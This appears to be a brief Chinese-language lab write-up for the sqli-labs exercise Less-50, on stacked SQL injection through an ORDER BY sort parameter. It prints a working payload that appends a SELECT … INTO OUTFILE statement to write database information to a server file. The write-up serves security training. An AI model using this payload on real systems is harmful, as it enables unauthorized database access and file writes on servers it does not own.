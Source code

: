 ![](file/image_zK1iZXQLah.png)

### Less-50：GET -Error based - ORDER BY CLAUSE -numeric- stacked injection

**注入类型**

堆叠注入

**闭合方式**

id=\$id

```sql
http://192.168.65.128/sqli-labs/Less-50/?sort=2;
select 'Less-50',database() into outfile "C:\\phpStudy\\MySQL\\data\\dump.txt";
```
